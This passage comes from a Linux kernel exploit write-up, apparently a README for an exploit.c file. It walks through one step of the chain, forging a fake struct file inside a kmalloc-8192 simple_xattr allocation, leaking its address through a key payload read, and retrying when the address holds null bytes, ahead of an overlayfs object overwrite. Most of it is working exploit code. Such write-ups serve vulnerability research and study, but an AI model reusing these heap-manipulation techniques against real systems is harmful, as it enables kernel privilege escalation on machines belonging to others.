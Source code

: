### Step7.1: Create a fake `struct file` object
- Prepare fake `struct file` buffer [exploit.c#L808](./exploit.c#L808):

```c

// let's say we call the fake `struct file` object: f
*(uint8_t*)(buf + STRUCT_FILE_F_MODE_OFFSET) = FMODE_LSEEK; // f->f_mode = FMODE_LSEEK
*(uint64_t*)(buf + STRUCT_FILE_F_OP_OFFSET) = fops; // f->f_op = fops
```

- Allocate `struct simple_xattr` object which contain fake `struct file` [exploit.c#L816](./exploit.c#L816):

```c
if (setxattr(r->attrs[1]->path, "security.fake_file", buf,
    KMALLOC_8192 - SIMPLE_XATTR_STRUCT_SIZE, 0) < 0) {
  perror("setxattr");
  return false;
}
```

- I pick kmalloc-8192 heap to store fake `struct file` object. It's ok if you want to use other kmalloc size.
- In Step5, I already used `r->attrs[0]->path` filename to allocate `struct simple_xattr` object. This time, i use `r->attrs[1]->path` filename to allocate `struct simple_xattr` object for fake `struct file` object.

- Leak address of fake `struct file` object [exploit.c#L822](./exploit.c#L822):

```c
user_key_payload_read(r->key_to_read, leak_buffer, r->size_to_read);
void *scan = skip_user_key_payload(leak_buffer, r->live_on_heap);

struct simple_xattr *xattr = scan + r->offsets_to_leak[1];
fake_file_addr = xattr->list.prev + SIMPLE_XATTR_STRUCT_SIZE;
```

- Validate the address of fake `struct file` object doesn't contain null byte [exploit.c#L827](./exploit.c#L827):

```c
bool found_good_address = true;
uint8_t *p8 = (uint8_t*)&fake_file_addr;
for (int i = 0; i < sizeof(uint64_t); i++)
  if (p8[i] == 0)
    found_good_address = false;

```

- The reason is i need to overwrite `struct ovl_dir_file` object with C-style string.
- In case the address actually contain null byte which is never happened while testing the exploit, free `struct simple_xattr` object which contain fake `struct file` object and retry. [exploit.c#L833](./exploit.c#L833):

```c
if (!found_good_address) {
  if (removexattr(r->attrs[1]->path, "security.fake_file") < 0) {
    perror("removexattr(security.fake_file)");
    return false;
  }

  if (!drain_kmalloc_8192(4))
    return false;
} else {
  address_have_null_byte = false;
}
```
